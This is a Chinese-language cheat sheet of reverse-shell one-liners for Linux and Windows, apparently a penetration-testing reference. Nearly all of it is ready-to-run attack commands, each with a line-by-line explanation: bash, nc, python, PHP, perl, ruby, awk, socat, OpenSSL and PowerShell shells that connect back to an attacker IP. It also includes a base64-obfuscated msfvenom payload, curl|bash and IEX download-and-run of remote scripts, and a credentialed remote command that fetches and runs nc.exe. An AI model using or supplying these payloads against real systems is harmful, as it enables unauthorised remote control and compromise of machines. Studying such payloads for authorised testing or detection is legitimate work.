



# 反弹shell总结

## Linux

### bash反弹

```
bash -i >& /dev/tcp/ip_address/port 0>&1
```

> 1. bash -i   打开一个交互的bash
>
> 2. & 将标准错误输出重定向到标准输出
> 3. /dev/tcp/x.x.x.x/port   意为调用socket,建立socket连接,其中x.x.x.x为要反弹到的主机ip，port为端口
> 4. 0>&1   标准输入重定向到标准输出，实现你与反弹出来的shell的交互

在特殊情况可以使用base64编码执行bash反弹shell

```
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTAyLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}'
```


### nc反弹

```
nc -e /bin/sh 192.168.0.8 7777
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

> 1. rm /tmp/f：删除/tmp/f文件。
> 2. mkfifo /tmp/f：创建名为/tmp/f的管道。
> 3. cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f：通过管道实现反向 shell，从远程主机10.0.0.1的端口1234读取命令，并通过/bin/sh命令执行，并将输出结果写入管道/tmp/f。

### **curl反弹**

Kali开启apache服务，把bash命令写入html文件，只要文本包含bash一句话即可。

```
┌──(root💀kali)-[/var/www/html]
└─# cat base.html                          
bash -i >& /dev/tcp/192.168.0.8/7777 0>&1
```

```
curl 192.168.0.8/base.html|bash
```


### **whois反弹**

反弹的shell只能执行后面带的命令

```
whois -h 192.168.0.8 -p 7777 `pwd`
```


### **python反弹** 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.8",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> 1. python -c：执行后面的 Python 代码。
> 2. import socket,subprocess,os：导入 Python 标准库中的 socket、subprocess 和 os 模块。
> 3. s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)：创建一个 TCP 套接字。
> 4. s.connect(("192.168.0.8",7777))：连接到远程主机 192.168.0.8 的 7777 端口。
> 5. os.dup2(s.fileno(),0)：将标准输入重定向到套接字。
> 6. os.dup2(s.fileno(),1)：将标准输出重定向到套接字。
> 7. os.dup2(s.fileno(),2)：将标准错误重定向到套接字。
> 8. p=subprocess.call(["/bin/sh","-i"])：执行/bin/sh命令，并以交互模式运行。


### **PHP反弹**

```
php -r '$sock=fsockopen("192.168.0.8",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```

> 1. php -r：执行后面的 PHP 代码。
> 2. $sock=fsockopen("192.168.0.8",7777)：打开一个到 192.168.0.8 的 7777 端口的 socket 连接。
> 3. exec("/bin/sh -i <&3 >&3 2>&3")：执行/bin/sh命令，并以交互模式运行，并通过 socket 连接读写数据。


```
php -r '$s=fsockopen("10.10.10.11",443);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'
```

> 1. php -r：执行后面的 PHP 代码。
> 2. $s=fsockopen("10.10.10.11",443)：打开一个到 10.10.10.11 的 443 端口的 socket 连接。
> 3. `$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes)`：通过 socket 连接执行/bin/sh命令，并以交互模式运行。


```
php -r '$s=fsockopen("10.10.10.11",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```

> 1. php -r：执行后面的 PHP 代码。
> 2. $s=fsockopen("10.10.10.11",443)：打开一个到 10.10.10.11 的 443 端口的 socket 连接。
> 3. shell_exec("/bin/sh -i <&3 >&3 2>&3")：通过 socket 连接执行/bin/sh命令，并以交互模式运行。


```
php -r '$s=fsockopen("10.10.10.11",443);`/bin/sh -i <&3 >&3 2>&3`;'
```

> 1. php -r：执行后面的 PHP 代码。
> 2. $s=fsockopen("10.10.10.11",443)：打开一个到 10.10.10.11 的 443 端口的 socket 连接。
> 3. `/bin/sh -i <&3 >&3 2>&3`：通过 socket 连接执行/bin/sh命令，并以交互模式运行。


```
php -r '$s=fsockopen("192.168.32.130",7777);system("/bin/sh -i <&3 >&3 2>&3");' 
```

> 1. php -r：执行后面的 PHP 代码。
> 2. $s=fsockopen("192.168.32.130",7777)：打开一个到 192.168.32.130 的 7777 端口的 socket 连接。
> 3. system("/bin/sh -i <&3 >&3 2>&3")：通过 socket 连接执行/bin/sh命令，并以交互模式运行。


```
php -r '$s=fsockopen("192.168.32.130",7777);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

> 1. php -r：执行后面的 PHP 代码。
> 2. $s=fsockopen("192.168.32.130",7777)：打开一个到 192.168.32.130 的 7777 端口的 socket 连接。
> 3. popen("/bin/sh -i <&3 >&3 2>&3", "r")：通过 socket 连接执行/bin/sh命令，并以读取模式打开。


### **ruby反弹**

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.32.130","7777");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

> 1. ruby -rsocket：使用 Ruby 命令行工具，并加载 socket 库。
> 2. exit if fork：父进程退出。
> 3. c=TCPSocket.new("192.168.32.130","7777")：打开一个到 192.168.32.130 的 7777 端口的 TCP socket 连接。
> 4. while(cmd=c.gets)：循环读取从 socket 中获得的命令。
> 5. IO.popen(cmd,"r")：通过命令行执行 cmd，并以读取模式打开。
> 6. c.print io.read：将 IO 对象读取的结果通过 socket 返回。


### telnet反弹

攻击者主机上打开两个终端分别执行监听：

```
nc -lvvp 4444

nc -lvvp 5555
```

目标主机中执行：

```
telnet 192.168.0.8 4444 | /bin/bash | telnet 192.168.0.8 5555 
```

监听两个端口分别用来输入和输出，其中x.x.x.x均为攻击者ip

反弹shell成功后，在监听4444端口的终端中执行命令可以在另一个终端中看到命令执行结果。


```
mknod a p; telnet 192.168.32.130 7777 0<a | /bin/bash 1>a
```

> 1. mknod a p：创建一个名为 "a" 的管道文件。
> 2. telnet 192.168.32.130 7777：打开一个到 192.168.32.130 的 7777 端口的 Telnet 连接。
> 3. 0<a：将管道文件 "a" 的标准输入重定向到 Telnet 连接。
> 4. /bin/bash 1>a：将 /bin/bash 的标准输出重定向到管道文件 "a"。


### perl反弹

```
perl -e 'use Socket;$i="192.168.32.130";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> 这段代码是一段perl脚本，用于远程命令执行。它使用了Socket库，并连接到地址为192.168.32.130，端口为7777的服务器。如果连接成功，它将使用/bin/sh -i命令替换当前程序，并重定向标准输入，输出和错误流到连接的套接字。


```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.32.130:7777");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

> 这是一个Perl代码片段，它使用了IO库，在本地创建一个新的进程，并使用TCP协议连接到IP地址为"192.168.32.130"，端口为7777的远程主机。一旦连接成功，将标准输入，输出和错误重定向到该连接，并执行"/bin/sh -i"命令。


```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.32.130:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' 
```

> 这段代码是在使用Perl编写的代码。它连接到一个IP地址为192.168.32.130，端口为4444的服务器，并使用"IO::Socket::INET"模块创建一个套接字。它进一步将标准输入和标准输出重定向到该套接字，并在套接字上执行来自标准输入的命令。

### socat反弹

攻击机开启本地监听

```
socat TCP-LISTEN:9999 -
或
nc -lvvp 9999
```

目标机主动连接攻击机

```
socat tcp-connect:192.168.32.130:9999 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

> 这是一段使用 socat 的命令，它将创建一个 TCP 连接到 IP 为 192.168.32.130，端口为 9999 的主机。然后它执行一个带有参数的 bash 脚本，并且通过 pty、stderr、setsid、sigint 和 sane 等参数来设置这个 shell 的环境。




### awk反弹

```
awk 'BEGIN {s = "/inet/tcp/0/192.168.32.130/7777"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

> 这是一个使用awk脚本连接到远程主机并执行命令的代码片段。它连接到 IP 地址为192.168.32.130，端口为 7777 的远程主机，并在连接成功后不断循环，输出 "shell>" 提示符并等待输入，一旦收到输入，就将其发送到远程主机并打印任何输出。如果输入的是 "exit"，则关闭连接并退出循环。


### TCL脚本反弹shell

```
echo 'set s [socket 192.168.32.130 7777];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
```

> 这是一段使用 Tcl 语言的代码，它会连接到 IP 地址为 192.168.32.130，端口为 7777 的主机。当连接成功后，它会不断输出 "shell>"，读取远程主机的输入并执行命令。每当执行完一条命令后，它会将结果再发送回远程主机，并再次读取命令。当远程主机输入 "exit" 时，它会关闭连接并结束执行。


### msfvenom

我们直接可以使用 `msfvenom -l` 结合关键字过滤（如cmd/unix/reverse），列出我们需要生成的各类反弹shell一句话的payload：

```
msfvenom -l payloads | grep 'cmd/unix/reverse'
```


如上图所示，metasploit支持生成反弹shell一句话的类型非常丰富，大家可以依据渗透测试对象自行选择使用。比如，我们获取一个python反弹shell的一句话：

```
┌──(root💀kali)-[~]
└─# msfvenom -p cmd/unix/reverse_python LHOST=192.168.32.130 LPORT=7777 -f raw

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 617 bytes
python -c "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCAgICAgICAgICxzdWJwcm9jZXNzICAgICAgICAgLG9zICAgICAgICA7ICAgIGhvc3Q9IjE5Mi4xNjguMzIuMTMwIiAgICAgICAgOyAgICBwb3J0PTc3NzcgICAgICAgIDsgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVUICAgICAgICAgLHNvY2tldC5TT0NLX1NUUkVBTSkgICAgICAgIDsgICAgcy5jb25uZWN0KChob3N0ICAgICAgICAgLHBvcnQpKSAgICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICAgICAsMCkgICAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpICAgICAgICAgLDEpICAgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgICwyKSAgICAgICAgOyAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=')[0]))"
```

将生成的python反弹shell的一句话在目标主机上执行即可：


### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.32.130/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

> 这是一段 Java 代码，通过使用 Runtime 类的 exec 方法来执行一个命令。该命令使用 /bin/bash 进行交互，并打开一个 TCP 连接到 192.168.32.130 的 4444端口。从该连接读取的每一行都会被执行，其结果将通过连接写回。该代码使用 waitFor 方法来等待命令完成。

### OpenSSL反弹加密

在利用 OpenSSL 反弹 shell 之前需要先生成自签名证书：

```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

假设我们从目标机反弹 shell 到攻击机 。首先需要利用上一步生成的自签名证书，在攻击机上使用 OpenSSL 监听一个端口，在这里使用 7777端口：

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 7777
```

此时 OpenSSL 便在攻击机的 7777端口上启动了一个 SSL/TLS server。

这时在目标机进行反弹 shell 操作，命令为：

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.32.130:7777 > /tmp/s; rm /tmp/s
```


### XTERM

```
# Start an open X Server on your system (:1 – which listens on TCP port 6001)
apt-get install xnest
Xnest :1

# Then remember to authorise on your system the target IP to connect to you
xterm -display 127.0.0.1:1

# Run this INSIDE the spawned xterm on the open X Server
xhost +targetip

# Then on the target connect back to the your X Server
xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
or
$ DISPLAY=attackerip:0 xterm
```

> 这是一种利用X Server漏洞的攻击方法，攻击者会安装Xnest并打开一个X Server监听在TCP端口6001，然后在本地打开一个xterm授权目标IP连接，然后目标机在X Server上运行xterm，连接回攻击者的X Server，进而执行恶意命令。

## Windows

### powershell反弹

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.32.130",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

> 这是一段使用 PowerShell 脚本连接到 IP 地址为 192.168.32.130，端口为 7777 的目标主机并执行命令的代码。 它创建一个 TCP 客户端连接到目标主机，并通过该连接获取流数据。然后，通过循环读取流中的数据并执行命令，将结果发送回流中。最后关闭 TCP 客户端连接。

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.32.130',7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

> 这是一段 PowerShell 脚本，作用是创建一个 TCP 客户端连接到 IP 为 192.168.32.130，端口为 7777 的服务器。该客户端循环读取从服务器发送的数据，并将其作为 PowerShell 命令进行执行，将执行结果再发送回服务器。该脚本运行结束后关闭客户端连接。

```
$socket = new-object System.Net.Sockets.TcpClient('192.168.32.130', 1234);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
	$writer.Write("> ");
	$writer.Flush();
	$read = $null;
	while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}	
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
	if(!$out.equals("exit")){
		$out = $out.split(' ')
	        $res = [string](&$out[0] $out[1..$out.length]);
		if($res -ne $null){ $writer.WriteLine($res)}
	}
}While (!$out.equals("exit"))
$writer.close();$socket.close();
```

> 这是一段 PowerShell 脚本，它创建一个 TCP 客户端，连接到 IP 为 192.168.32.130，端口为 1234 的服务器。脚本执行以下操作：
>
> 1. 如果客户端创建失败，则退出脚本。
> 2. 创建一个字节数组用于存储从服务器读取的数据。
> 3. 创建一个 ASCII 编码的对象，用于将读取的字节数据转换为字符串。
> 4. 循环从服务器读取数据，并将读取的字符串作为 PowerShell 命令执行，将执行结果写回服务器。当读取的字符串为 "exit" 时，退出循环。
> 5. 关闭客户端连接。

```
$pass = ConvertTo-SecureString 'password' -AsPlainText -Force;
$cred = New-Object System.Management.Automation.PSCredential('sectest\hack', $pass);
Invoke-Command -Computer Fidelity -Credential $cred -ScriptBlock { powershell.exe -c 'IWR -uri http://192.168.32.130:8000/nc.exe -o C:\temp\nc.exe'};
Invoke-Command -Computer Fidelity -Credential $cred -ScriptBlock { cmd.exe '/c C:\temp\nc.exe 10.10.16.2 7777 -e cmd.exe'}
```

> 这是一段 PowerShell 脚本，它创建了一个认证凭证对象，用于连接到名为 "sectest\hack" 的用户，并使用 "password" 作为密码。 然后，使用 Invoke-Command 命令在远程计算机 "Fidelity" 上执行两个命令：
>
> 1. 使用 IWR 命令从 http://192.168.32.130:8000/nc.exe 下载文件到 C:\temp\nc.exe。
> 2. 使用 cmd.exe 运行 C:\temp\nc.exe，并执行从 10.10.16.2 的 7777 端口连接到本地 cmd.exe 的命令。
>
> 注意：在执行此脚本前，请确保您有使用 Invoke-Command 命令的权限，并且可以访问远程计算机 "Fidelity"。

### perl反弹

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.32.130:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

> 这是一段Perl代码，它创建了一个IO::Socket::INET对象，连接到IP地址为192.168.32.130，端口为443的主机。然后它通过标准输入（STDIN）与标准输出（$~）关联了套接字的读取和写入。最后，它使用system函数一直读取输入，并在读取到输入时执行命令。

### ruby反弹

```
ruby -rsocket -e 'c=TCPSocket.new("192.168.32.130","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

> 这是一段Ruby代码，它创建了一个TCPSocket对象，连接到IP地址为192.168.32.130，端口为4444的主机。它进入一个循环，每次从套接字中读取命令（cmd），然后使用IO.popen执行该命令，并读取输出。最后，它通过套接字将读取的输出发送回主机。

### ConPtyShell

ConPtyShell 是适用于 Windows 系统的完全交互式反向 Shell。

> 要求：客户端：Windows 版本 >= 10 / 2019 1809（内部版本 >= 10.0.17763）

kali

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

受害机

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```





### nishang

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.32.130 -port 4444
```

> 这是一段 PowerShell 代码，它的作用是从 GitHub 下载一个名为 Invoke-PowerShellTcp.ps1 的脚本并执行，并通过反向连接的方式连接到 IP 地址为 192.168.32.130，端口为 4444 的主机。